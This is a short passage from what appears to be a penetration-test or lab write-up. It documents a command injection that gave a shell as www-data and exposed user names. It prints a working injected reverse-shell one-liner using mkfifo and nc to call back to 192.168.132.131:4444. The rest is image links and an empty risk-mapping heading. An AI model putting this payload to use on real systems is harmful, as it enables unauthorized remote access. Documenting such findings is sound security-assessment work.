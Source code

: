     - Injected command: 10.10.10.83 | rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.132.131 4444 >/tmp/f
    - ![Pasted image 20250403120428](Pasted%20image%2020250403120428.png)
    - Result: Established a connection as www-data, allowing us to view users (alice, bob, john).
	
	![Pasted image 20250403120522](Pasted%20image%2020250403120522.png)
	![Pasted image 20250403120532](Pasted%20image%2020250403120532.png)

	![Pasted image 20250403120558](Pasted%20image%2020250403120558.png)
#### 3.2.3 Risk Mapping

